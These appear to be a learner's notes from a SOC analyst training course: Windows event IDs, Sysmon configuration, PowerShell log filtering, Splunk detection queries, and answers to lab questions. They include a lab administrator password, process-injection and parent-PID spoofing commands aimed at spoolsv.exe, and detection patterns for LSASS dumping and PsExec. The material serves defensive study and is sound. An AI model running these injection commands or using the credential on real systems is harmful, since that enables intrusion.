

SOC Analyst Pathway
Useful Windows Event Logs
$ xfreerdp /u:Administrator /p:'HTB_@cad3my_lab_W1n10_r00t!@0' /v:[Target IP] /dynamic-resolution
1. Windows System Logs
Event ID 1074 (System Shutdown/Restart): This event log indicates when and why the system was shut down or restarted. By monitoring these events, you can determine if there are unexpected shutdowns or restarts, potentially revealing malicious activity such as malware infection or unauthorized user access.
Event ID 6005 (The Event log service was started): This event log marks the time when the Event Log Service was started. This is an important record, as it can signify a system boot-up, providing a starting point for investigating system performance or potential security incidents around that period. It can also be used to detect unauthorized system reboots.
Event ID 6006 (The Event log service was stopped): This event log signifies the moment when the Event Log Service was stopped. It is typically seen when the system is shutting down. Abnormal or unexpected occurrences of this event could point to intentional service disruption for covering illicit activities.
Event ID 6013 (Windows uptime): This event occurs once a day and shows the uptime of the system in seconds. A shorter than expected uptime could mean the system has been rebooted, which could signify a potential intrusion or unauthorized activities on the system.
Event ID 7040 (Service status change): This event indicates a change in service startup type, which could be from manual to automatic or vice versa. If a crucial service's startup type is changed, it could be a sign of system tampering.
2. Windows Security Logs
Event ID 1102 (The audit log was cleared): Clearing the audit log is often a sign of an attempt to remove evidence of an intrusion or malicious activity.
Event ID 1116 (Antivirus malware detection): This event is particularly important because it logs when Defender detects a malware. A surge in these events could indicate a targeted attack or widespread malware infection. Event ID 1118 (Antivirus remediation activity has started): This event signifies that Defender has begun the process of removing or quarantining detected malware. It's important to monitor these events to ensure that remediation activities are successful.
Event ID 1119 (Antivirus remediation activity has succeeded): This event signifies that the remediation process for detected malware has been successful. Regular monitoring of these events will help ensure that identified threats are effectively neutralized.
Event ID 1120 (Antivirus remediation activity has failed): This event is the counterpart to 1119 and indicates that the remediation process has failed. These events should be closely monitored and addressed immediately to ensure threats are effectively neutralized.
Event ID 4624 (Successful Logon): This event records successful logon events. This information is vital for establishing normal user behavior. Abnormal behavior, such as logon attempts at odd hours or from different locations, could signify a potential security threat.
Event ID 4625 (Failed Logon): This event logs failed logon attempts. Multiple failed logon attempts could signify a brute-force attack in progress.
Event ID 4648 (A logon was attempted using explicit credentials): This event is triggered when a user logs on with explicit credentials to run a program. Anomalies in these logon events could indicate lateral movement within a network, which is a common technique used by attackers.
Event ID 4656 (A handle to an object was requested): This event is triggered when a handle to an object (like a file, registry key, or process) is requested. This can be a useful event for detecting attempts to access sensitive resources.
Event ID 4672 (Special Privileges Assigned to a New Logon): This event is logged whenever an account logs on with super user privileges. Tracking these events helps to ensure that super user privileges are not being abused or used maliciously.
Event ID 4698 (A scheduled task was created): This event is triggered when a scheduled task is created. Monitoring this event can help you detect persistence mechanisms, as attackers often use scheduled tasks to maintain access and run malicious code.
Event ID 4700 & Event ID 4701 (A scheduled task was enabled/disabled): This records the enabling or disabling of a scheduled task. Scheduled tasks are often manipulated by attackers for persistence or to run malicious code, thus these logs can provide valuable insight into suspicious activities.
Event ID 4702 (A scheduled task was updated): Similar to 4698, this event is triggered when a scheduled task is updated. Monitoring these updates can help detect changes that may signify malicious intent.
Event ID 4719 (System audit policy was changed): This event records changes to the audit policy on a computer. It could be a sign that someone is trying to cover their tracks by turning off auditing or changing what events get audited.
Event ID 4738 (A user account was changed): This event records any changes made to user accounts, including changes to privileges, group memberships, and account settings. Unexpected account changes can be a sign of account takeover or insider threats.
Event ID 4771 (Kerberos pre-authentication failed): This event is similar to 4625 (failed logon) but specifically for Kerberos authentication. An unusual amount of these logs could indicate an attacker attempting to brute force your Kerberos service.
Event ID 4776 (The domain controller attempted to validate the credentials for an account): This event helps track both successful and failed attempts at credential validation by the domain controller. Multiple failures could suggest a brute-force attack.
Event ID 5001 (Antivirus real-time protection configuration has changed): This event indicates that the real-time protection settings of Defender have been modified. Unauthorized changes could indicate an attempt to disable or undermine the functionality of Defender.
Event ID 5140 (A network share object was accessed): This event is logged whenever a network share is accessed. This can be critical in identifying unauthorized access to network shares.
Event ID 5142 (A network share object was added): This event signifies the creation of a new network share. Unauthorized network shares could be used to exfiltrate data or spread malware across a network.
Event ID 5145 (A network share object was checked to see whether client can be granted desired access): This event indicates that someone attempted to access a network share. Frequent checks of this sort might indicate a user or a malware trying to map out the network shares for future exploits.
Event ID 5157 (The Windows Filtering Platform has blocked a connection): This is logged when the Windows Filtering Platform blocks a connection attempt. This can be helpful for identifying malicious traffic on your network.
Event ID 7045 (A service was installed in the system): A sudden appearance of unknown services might suggest malware installation, as many types of malware install themselves as services.
Windows Event Logging Basics exercises
Analyze the event with ID 4624, that took place on 8/3/2022 at 10:23:25. Conduct a similar investigation as outlined in this section and provide the name of the executable responsible for the modification of the auditing settings as your answer. Answer format: T_W_____.exe

The point is to see what changed after the logon. After the successful logon (4624), the user conduct 4907 (Auditing settings on object were changed.)

Answer: TiWorker.exe
MD5=1F009DE6A013A282D07436241512C056,SHA256=C897C345C3BCF3E96589A0FEEEA8B6D26CF33C091AC3EE2162DD27F8A79C3FF5,IMPHASH=48D15928B7CDAE9E088E08F2C8DE7CFE Signed: true
C:\Tools\Sysmon> sysmon.exe -i -accepteula -h md5,sha256,imphash -l -n
<ImageLoad onmatch="exclude">
<!--NOTE: Using "include" with no rules means nothing in this section will be logged-->
</ImageLoad>
C:\Tools\Sysmon> sysmon.exe -c sysmonconfig-export.xml
powershell -ep bypass
Import-Module .\Invoke-PSInject.ps1
Invoke-PSInject -ProcId [Process ID of spoolsv.exe] -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
PS C:\Tools\psgetsystem> powershell -ep bypass
PS C:\Tools\psgetsystem> Import-Module .\psgetsys.ps1
PS C:\Tools\psgetsystem> [MyProcess]::CreateProcessFromParent([Process ID of spoolsv.exe],"C:\Windows\System32\cmd.exe","")
c:\Tools\SilkETW_SilkService_v8\v8\SilkETW>SilkETW.exe -t user -pn Microsoft-Windows-Kernel-Process -ot file -p C:\windows\temp\etw.json
PS C:\Tools\GhostPack Compiled Binaries>.\Seatbelt.exe TokenPrivileges
c:\Tools\SilkETW_SilkService_v8\v8\SilkETW>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\windows\temp\etw.json
PS C:\Users\Administrator> Get-WinEvent -ListLog * | Select-Object LogName, RecordCount, IsClassicLog, IsEnabled, LogMode, LogType | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -ListProvider * | Format-Table -AutoSize
# Retrieving events from the System log
PS C:\Users\Administrator> Get-WinEvent -LogName 'System' -MaxEvents 50 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Retrieving events from Microsoft-Windows-WinRM/Operational
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-WinRM/Operational' -MaxEvents 30 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-WinRM/Operational' -Oldest -MaxEvents 30 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Retrieving events from .evtx Files
PS C:\Users\Administrator> Get-WinEvent -Path 'C:\Tools\chainsaw\EVTX-ATTACK-SAMPLES\Execution\exec_sysmon_1_lolbin_pcalua.evtx' -MaxEvents 5 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Filtering events with FilterHashtable
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1,3} | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{Path='C:\Tools\chainsaw\EVTX-ATTACK-SAMPLES\Execution\sysmon_mshta_sharpshooter_stageless_meterpreter.evtx'; ID=1,3} | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# get event logs based on a date range (5/28/23 - 6/2/2023)
PS C:\Users\Administrator> $startDate = (Get-Date -Year 2023 -Month 5 -Day 28).Date
PS C:\Users\Administrator> $endDate = (Get-Date -Year 2023 -Month 6 -Day 3).Date
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1,3; StartTime=$startDate; EndTime=$endDate} | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Filtering events with FilterHashtable & XML
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
`ForEach-Object {
$xml = [xml]$_.ToXml()
$eventData = $xml.Event.EventData.Data
New-Object PSObject -Property @{
SourceIP = $eventData | Where-Object {$_.Name -eq "SourceIp"} | Select-Object -ExpandProperty '#text'
DestinationIP = $eventData | Where-Object {$_.Name -eq "DestinationIp"} | Select-Object -ExpandProperty '#text'
ProcessGuid = $eventData | Where-Object {$_.Name -eq "ProcessGuid"} | Select-Object -ExpandProperty '#text'
ProcessId = $eventData | Where-Object {$_.Name -eq "ProcessId"} | Select-Object -ExpandProperty '#text'
}
} | Where-Object {$_.DestinationIP -eq "52.113.194.132"}
PS C:\Users\Administrator> $Query = @"
<QueryList>
<Query Id="0">
<Select Path="Microsoft-Windows-Sysmon/Operational">*[System[(EventID=7)]] and *[EventData[Data='mscoree.dll']] or *[EventData[Data='clr.dll']]
</Select>
</Query>
</QueryList>
"@
PS C:\Users\Administrator> Get-WinEvent -FilterXml $Query | ForEach-Object {Write-Host $_.Message `n}
# Filtering events with FilterXPath
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-Sysmon/Operational' -FilterXPath "*[EventData[Data[@Name='Image']='C:\Windows\System32\reg.exe']] and *[EventData[Data[@Name='CommandLine']='`"C:\Windows\system32\reg.exe`" ADD HKCU\Software\Sysinternals /v EulaAccepted /t REG_DWORD /d 1 /f']]" | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-Sysmon/Operational' -FilterXPath "*[System[EventID=3] and EventData[Data[@Name='DestinationIp']='52.113.194.132']]"
# Filtering events based on property values
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} -MaxEvents 1 | Select-Object -Property *
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} | Where-Object {$_.Properties[21].Value -like "*-enc*"} | Format-List
Get-WinEvent -FilterHashtable @{Path='C:\Tools\chainsaw\EVTX-ATTACK-SAMPLES\Lateral Movement\*.evtx'} | Where-Object{$_.Message -like "*\\*\PRINT*"} | Format-Table -AutoSize
\\*\PRINT
Get-WinEvent Microsoft-Windows-WLAN-AutoConfig/Operational | Where-Object{$_.Message -like "*$SearchString*"}
12:30:30
Skill assessment
Q1: By examining the logs located in the "C:\Logs\DLLHijack" directory, determine the process responsible for executing a DLL hijacking attack. Enter the process name as your answer. Answer format: _.exe
-
modify the sysmonconfig file with this changes (Imageload Onmatch = exclusive ) Update it in cmd with (sysmon.exe -c .)
-
open Event viewer and open saved logs. Filter event id equals 7 and search for 'wininet.dll'.
Q2: By examining the logs located in the "C:\Logs\PowershellExec" directory, determine the process that executed unmanaged PowerShell code. Enter the process name as your answer. Answer format: _.exe
-
correctly configure the sysmon. and open saved logs in Event viewer
-
Filter event id 7 and search 'wininet.dll' or 'clr.dll' or 'clrjit.dll' and see if anything process is weird. Or search '.Net'
Q3: By examining the logs located in the "C:\Logs\PowershellExec" directory, determine the process that injected into the process that executed unmanaged PowerShell code. Enter the process name as your answer. Answer format: _.exe
In Q2 we know the process id is 3776, we need to find its parent process. Who create this thread.
In the Sysmon event ID 8 (CreateRemoteThread), a log is generated when a process creates a thread in another process by using the CreateRemoteThread function. This technique is used by malware to inject code and hide in other processes. The event indicates the source and target process.
So, filter event id 8 and find the TargetProcessId: 3776.
Q4: By examining the logs located in the "C:\Logs\Dump" directory, determine the process that performed an LSASS dump. Enter the process name as your answer. Answer format: _.exe
# event id is 10
<ProcessAccess onmatch="exclude">
<!--NOTE: Using "include" with no rules means nothing in this section will be logged-->
</ProcessAccess>
Filter event id 10 and search 'lsass.exe', trying every exe file that looks malicious.
processhacker.exe
Q5: By examining the logs located in the "C:\Logs\Dump" directory, determine if an ill-intended login took place after the LSASS dump. Answer format: Yes or No
No
Q6: By examining the logs located in the "C:\Logs\StrangePPID" directory, determine a process that was used to temporarily execute code based on a strange parent-child relationship. Enter the process name as your answer. Answer format: _.exe
SourceImage: C:\Windows\System32\svchost.exe TargetProcessGUID: {67e39d39-f935-6269-8203-000000000300} TargetProcessId: 7780 TargetImage: C:\Windows\System32\werfault.exe
Hunting For Stuxbot
Q3:
powershell.file.script_block_text : P*V*

Hunting For Stuxbot (Round 2)
Q1:
"C:\Users\Public*" and event.code: 11
Sysmon id 11: FileCreate, Event ID 11 contains details about the file's path, the operation that created or modified the file, and the file's hash.
Q2:
event.code:13 AND registry.path: *Run*
Sysmon Event ID 13 - RegistryEvent (Value Set)
This Registry event type identifies Registry value modifications. The event records the value written for Registry values of type DWORD and QWORD .
Q3:
powershell.file.script_block_text: *Enter-PSSession* and event.code:4104
Event 4104 will capture PowerShell commands and show script block logging. A great indicator that PowerShell was executed is Event ID 400. PowerShell's Event ID 400 will detail when the EngineState has started. You may also be wondering how we can correlate an Event ID 400 with an Event ID 4103.
Understanding Log Sources & Investigating with Splunk
search index="main" "UNKNOWN"
UNKNOWN is used as a keyword to filter and retrieve events that include this specific term.
index="main" "*UNKNOWN*"
index="main" EventCode!=1
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | fields - User
the fields command excludes the User field from the search results.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | table _time, host, Image
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | rename Image as Process
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | dedup Image
The 'dedup' command removes duplicate events.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | sort - _time
the most recent events are shown first.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 | stats count by _time, Image
The stats command performs statistical operations.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 | chart count by _time, Image
The chart command creates a data visualization based on statistical operations.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | eval Process_Path=lower(Image)
The eval command creates or redefines fields. This command creates a new field Process_Path which contains the lowercase version of the Image field. It doesn't change the actual Image field, but creates a new field that can be used in subsequent operations or for display purposes.
index="main" EventCode=4662 | rex max_match=0 "[^%](?<guid>{.*})" | table guid
The rex command extracts new fields from existing ones using regular expressions.
rex max_match=0 "[^%](?<guid>{.*})" uses the rex command to extract values matching the pattern from the events' fields. The regex pattern {.*} looks for substrings that begin with { and end with }. The [^%] part ensures that the match does not begin with a % character. The captured value within the curly braces is assigned to the named capture group guid.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | rex field=Image "(?P<filename>[^\\\]+)$" | eval filename=lower(filename) | lookup malware_lookup.csv filename OUTPUTNEW is_malware | table filename, is_malware
The lookup command enriches the data with external sources.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | eval filename=mvdedup(split(Image, "\\")) | eval filename=mvindex(filename, -1) | eval filename=lower(filename) | lookup malware_lookup.csv filename OUTPUTNEW is_malware | table filename, is_malware | dedup filename, is_malware
| inputlookup malware_lookup.csv
The inputlookup command retrieves data from a lookup file without joining it to the search results.
index="main" earliest=-7d EventCode!=1
Every event in Splunk has a timestamp. Using the time range picker or the earliest and latest commands, you can limit searches to specific time periods.
index="main" sourcetype="WinEventLog:Sysmon" (EventCode=1 OR EventCode=3) | transaction Image startswith=eval(EventCode=1) endswith=eval(EventCode=3) maxspan=1m | table Image | dedup Image
The transaction command is used in Splunk to group events that share common characteristics into transactions, often used to track sessions or user activities that span across multiple events.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 NOT [ search index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | top limit=100 Image | fields Image ] | table _time, Image, CommandLine, User, ComputerName
A subsearch in Splunk is a search that is nested inside another search. It's used to compute a set of results that are then used in the outer search.
SPL
| eventcount summarize=false index=* | table index
This query uses eventcount to count events in all indexes, then summarize=false is used to display counts for each index separately, and finally, the table command is used to present the data in tabular form.
| metadata type=sourcetypes
This search uses the metadata command, which provides us with various statistics about specified indexed fields. Here, we're focusing on sourcetypes. The result is a list of all sourcetypes in our Splunk environment, along with additional metadata such as the first time a source type was seen (firstTime), the last time it was seen (lastTime), and the number of hosts (totalCount).
For a simpler view, we can use the following search.
| metadata type=sourcetypes index=* | table sourcetype
| metadata type=sources index=* | table source
This command returns a list of all data sources in the Splunk environment.
sourcetype="WinEventLog:Security" | table _raw
sourcetype="WinEventLog:Security" | table *
The use of table * can result in a very wide table if our events have a large number of fields.
sourcetype="WinEventLog:Security" | fields Account_Name, EventCode | table Account_Name, EventCode
sourcetype="WinEventLog:Security" | fieldsummary
The values provided by the fieldsummary command are calculated based on the events returned by our search.
index=* sourcetype=* | bucket _time span=1d | stats count by _time, index, sourcetype | sort - _time
bucket command is used to group the events based on the _time field into 1-day buckets.
index=* sourcetype=* | rare limit=10 index, sourcetype
The rare command can help us identify uncommon event types, which might be indicative of abnormal behavior.
index="main" | rare limit=20 useother=f ParentImage
This command displays the 20 least common values of the ParentImage field.
index=* sourcetype=* | fieldsummary | where count < 100 | table field, count, distinct_count
This search shows a summary of all fields (fieldsummary), filters out fields that appear in less than 100 events (where count < 100), and then displays a table (table) showing the field name, total count, and distinct count.
index=* | sistats count by index, sourcetype, source, host
Introduction To Splunk & SPL
Q1:
sourcetype="WinEventLog:Security" EventCode=4768 | sistats count by Account_Name
The event code for a Kerberos authentication ticket request is 4768
Q2:
sourcetype="WinEventLog:Security" EventCode=4624 Account_Name=SYSTEM | sistats count by ComputerName

Q3:
sourcetype="WinEventLog:Security" EventCode=4624 | stats earliest(_time) as first_login latest(_time) as last_login count as total_attempts by Account_Name | eval duration = last_login - first_login | where duration <= 600 | sort - total_attempts | head 1 | fields Account_Name, total_attempts, duration

Using Splunk Applications
Q2:
index=* sourcetype="wineventlog:sysmon" EventCode=3 Image="*SharpHound.exe" | stats count
Intrusion Detection With Splunk (Real-world Scenario)
index="main" earliest=0
index="main" | stats count by sourcetype
index="main" sourcetype="WinEventLog:Sysmon"
index="main" uniwaldo.local
index="main" *uniwaldo.local*
index="main" ComputerName="*uniwaldo.local"
index="main" sourcetype="WinEventLog:Sysmon" | stats count by EventCode
Sysmon Event ID 1 - Process Creation: Useful for hunts targeting abnormal parent-child process hierarchies, as illustrated in the first lesson with Process Hacker. It's an event we can use later.
Sysmon Event ID 2 - A process changed a file creation time: Helpful in spotting "time stomp" attacks, where attackers alter file creation times. Bear in mind, not all such actions signal malicious intent.
Sysmon Event ID 3 - Network connection: A source of abundant noise since machines are perpetually establishing network connections. We may uncover anomalies, but let's consider other quieter areas first.
Sysmon Event ID 4 - Sysmon service state changed: Could be a useful hunt if attackers attempt to stop Sysmon, though the majority of these events are likely benign and informational, considering Sysmon's frequent legitimate starts and stops.
Sysmon Event ID 5 - Process terminated: This might aid us in detecting when attackers kill key processes or use sacrificial ones. For instance, Cobalt Strike often spawns temporary processes like werfault, the termination of which would be logged here, as well as the creation in ID 1.
Sysmon Event ID 6 - Driver loaded: A potential flag for BYOD (bring your own driver) attacks, though this is less common. Before diving deep into this, let's weed out more conspicuous threats first.
Sysmon Event ID 7 - Image loaded: Allows us to track dll loads, which is handy in detecting DLL hijacks.
Sysmon Event ID 8 - CreateRemoteThread: Potentially aids in identifying injected threads. While remote threads can be created legitimately, if an attacker misuses this API, we can potentially trace their rogue process and what they injected into.
Sysmon Event ID 10 - ProcessAccess: Useful for spotting remote code injection and memory dumping, as it records when handles on processes are made.
Sysmon Event ID 11 - FileCreate: With many files being created frequently due to updates, downloads, etc., it might be challenging to aim our hunt directly here. However, these events can be beneficial in correlating or identifying a file's origins later.
Sysmon Event ID 12 - RegistryEvent (Object create and delete) & Sysmon Event ID 13 - RegistryEvent (Value Set): While numerous events take place here, many registry events can be malicious, and with a good idea of what to look for, hunting here can be fruitful.
Sysmon Event ID 15 - FileCreateStreamHash: Relates to file streams and the "Mark of the Web" pertaining to external downloads, but we'll leave this aside for now.
Sysmon Event ID 16 - Sysmon config state changed: Logs alterations in Sysmon configuration, useful for spotting tampering.
Sysmon Event ID 17 - Pipe created & Sysmon Event ID 18 - Pipe connected: Record pipe creations and connections. They can help observe malware's interprocess communication attempts, usage of PsExec, and SMB lateral movement.
Sysmon Event ID 22 - DNSEvent: Tracks DNS queries, which can be beneficial for monitoring beacon resolutions and DNS beacons.
Sysmon Event ID 23 - FileDelete: Monitors file deletions, which can provide insights into whether a threat actor cleaned up their malware, deleted crucial files, or possibly attempted a ransomware attack.
Sysmon Event ID 25 - ProcessTampering (Process image change): Alerts on behaviors such as process herpadering, acting as a mini AV alert filter.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | stats count by ParentImage, Image
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 (Image="*cmd.exe" OR Image="*powershell.exe") | stats count by ParentImage, Image
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 (Image="*cmd.exe" OR Image="*powershell.exe") ParentImage="C:\\Windows\\System32\\notepad.exe"
index="main" 10.0.0.229 | stats count by sourcetype
index="main" 10.0.0.229 sourcetype="linux:syslog"
index="main" 10.0.0.229 sourcetype="WinEventLog:sysmon" | stats count by CommandLine
index="main" 10.0.0.229 sourcetype="WinEventLog:sysmon" | stats count by CommandLine, host
index="main" EventCode=4662 Access_Mask=0x100 Account_Name!=*$
index="main" EventCode=10 lsass | stats count by SourceImage
index="main" EventCode=10 lsass SourceImage="C:\\Windows\\System32\\notepad.exe"
index="main" CallTrace="*UNKNOWN*" | stats count by EventCode
index="main" CallTrace="*UNKNOWN*" | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* CallTrace!=*wow64* | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* CallTrace!=*wow64* SourceImage!="C:\\Windows\\Explorer.EXE" | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* CallTrace!=*wow64* SourceImage!="C:\\Windows\\Explorer.EXE" | where SourceImage!=TargetImage | stats count by SourceImage, TargetImage, CallTrace
Q1:
index="main" EventCode=10 lsass | stats count by SourceImage
rundll32.exe
Q2:
index="main" EventCode=10 lsass SourceImage="C:\\Windows\\System32\\rundll32.exe" | stats count by CallTrace
comsvcs.dll
Q3:
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*clr.dll* CallTrace!=*ni.dll* | where SourceImage!=TargetImage | stats count by SourceImage
rundll32.exe
Q4:
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 Image="C:\\Windows\\System32\\rundll32.exe" DestinationIp="*" | rex field=DestinationIp "10\\.0\\.0\\.(?<octet>\\d{1,3})" | search (octet>=0 AND octet<=99) OR (octet>=100 AND octet<=199) | stats values(DestinationIp) as destination_ips
10.0.0.186 and 10.0.0.91
Q5:
index=main EventCode=3 (SourceIp="10.0.0.186" OR SourceIp="10.0.0.91") DestinationPort="*" | stats values(DestinationPort) as destination_ports
index=main EventCode=3 (SourceIp="10.0.0.186" OR SourceIp="10.0.0.91") | stats count by DestinationPort
Detecting Attacker Behavior With Splunk Based On TTPs
- Example: Detection Of Reconnaissance Activities Leveraging Native Windows Binaries
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 Image=*\\ipconfig.exe OR Image=*\\net.exe OR Image=*\\whoami.exe OR Image=*\\netstat.exe OR Image=*\\nbtstat.exe OR Image=*\\hostname.exe OR Image=*\\tasklist.exe | stats count by Image,CommandLine | sort - count
- Example: Detection Of Requesting Malicious Payloads/Tools Hosted On Reputable/Whitelisted Domains (Such As githubusercontent.com)
index="main" sourcetype="WinEventLog:Sysmon" EventCode=22 QueryName="*github*" | stats count by Image, QueryName
- Example: Detection Of PsExec Usage
index="main" sourcetype="WinEventLog:Sysmon" EventCode=13 Image="C:\\Windows\\system32\\services.exe" TargetObject="HKLM\\System\\CurrentControlSet\\Services\\*\\ImagePath" | rex field=Details "(?<reg_file_name>[^\\\]+)$" | eval reg_file_name = lower(reg_file_name), file_name = if(isnull(file_name),reg_file_name,lower(file_name)) | stats values(Image) AS Image, values(Details) AS RegistryDetails, values(_time) AS EventTimes, count by file_name, ComputerName
| rex field=Details "(?<reg_file_name>[^\\\]+)$": The rex command here is extracting the file name from the Details field using a regular expression. The pattern [^\]+)$ captures the part of the path after the last backslash, which is typically the file name. This value is stored in a new field reg_file_name.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 Image=System | stats count by TargetFilename
index="main" sourcetype="WinEventLog:Sysmon" EventCode=18 Image=System | stats count by PipeName
- Example: Detection Of Utilizing Archive Files For Transferring Tools Or Data Exfiltration
index="main" EventCode=11 (TargetFilename="*.zip" OR TargetFilename="*.rar" OR TargetFilename="*.7z") | stats count by ComputerName, User, TargetFilename | sort - count
- Example: Detection Of Utilizing PowerShell or MS Edge For Downloading Payloads/Tools
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 Image="*powershell.exe*" | stats count by Image, TargetFilename | sort + count
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 Image="*msedge.exe" TargetFilename=*"Zone.Identifier" | stats count by TargetFilename | sort + count
The *Zone.Identifier is indicative of a file downloaded from the internet or another potentially untrustworthy source. Windows uses this zone identifier to track the security zones of a file. The Zone.Identifier is an ADS (Alternate Data Stream) that contains metadata about where the file was downloaded from and its security settings.
- Example: Detection Of Execution From Atypical Or Suspicious Locations
index="main" EventCode=1 | regex Image="C:\\\\Users\\\\.*\\\\Downloads\\\\.*" | stats count by Image
- Example: Detection Of Executables or DLLs Being Created Outside The Windows Directory
index="main" EventCode=11 (TargetFilename="*.exe" OR TargetFilename="*.dll") TargetFilename!="*\\windows\\*" | stats count by User, TargetFilename | sort + count
- Example: Detection Of Misspelling Legitimate Binaries
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 (CommandLine="*psexe*.exe" NOT (CommandLine="*PSEXESVC.exe" OR CommandLine="*PsExec64.exe")) OR (ParentCommandLine="*psexe*.exe" NOT (ParentCommandLine="*PSEXESVC.exe" OR ParentCommandLine="*PsExec64.exe")) OR (ParentImage="*psexe*.exe" NOT (ParentImage="*PSEXESVC.exe" OR ParentImage="*PsExec64.exe")) OR (Image="*psexe*.exe" NOT (Image="*PSEXESVC.exe" OR Image="*PsExec64.exe")) | table Image, CommandLine, ParentImage, ParentCommandLine
- Example: Detection Of Using Non-standard Ports For Communications/Transfers
index="main" EventCode=3 NOT (DestinationPort=80 OR DestinationPort=443 OR DestinationPort=22 OR DestinationPort=21) | stats count by SourceIp, DestinationIp, DestinationPort | sort - count
Detecting Attacker Behavior With Splunk Based On Analytics
The streamstats command allows us to perform real-time analytics on the data, which can be useful for identifying unusual patterns or trends.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 | bin _time span=1h | stats count as NetworkConnections by _time, Image | streamstats time_window=24h avg(NetworkConnections) as avg stdev(NetworkConnections) as stdev by Image | eval isOutlier=if(NetworkConnections > (avg + (0.5*stdev)), 1, 0) | search isOutlier=1
- Example: Detection Of Abnormally Long Commands
index="main" sourcetype="WinEventLog:Sysmon" Image=*cmd.exe | eval len=len(CommandLine) | table User, len, CommandLine | sort - len
index="main" sourcetype="WinEventLog:Sysmon" Image=*cmd.exe ParentImage!="*msiexec.exe" ParentImage!="*explorer.exe" | eval len=len(CommandLine) | table User, len, CommandLine | sort - len
- Example: Detection Of Abnormal cmd.exe Activity
index="main" EventCode=1 (CommandLine="*cmd.exe*") | bucket _time span=1h | stats count as cmdCount by _time User CommandLine | eventstats avg(cmdCount) as avg stdev(cmdCount) as stdev | eval isOutlier=if(cmdCount > avg+1.5*stdev, 1, 0) | search isOutlier=1
- Example: Detection Of Processes Loading A High Number Of DLLs In A Specific Time
index="main" EventCode=7 | bucket _time span=1h | stats dc(ImageLoaded) as unique_dlls_loaded by _time, Image | where unique_dlls_loaded > 3 | stats count by Image, unique_dlls_loaded
index="main" EventCode=7 NOT (Image="C:\\Windows\\System32*") NOT (Image="C:\\Program Files (x86)*") NOT (Image="C:\\Program Files*") NOT (Image="C:\\ProgramData*") NOT (Image="C:\\Users\\waldo\\AppData*")| bucket _time span=1h | stats dc(ImageLoaded) as unique_dlls_loaded by _time, Image | where unique_dlls_loaded > 3 | stats count by Image, unique_dlls_loaded | sort - unique_dlls_loaded
- Example: Detection Of Transactions Where The Same Process Has Been Created More Than Once On The Same Computer
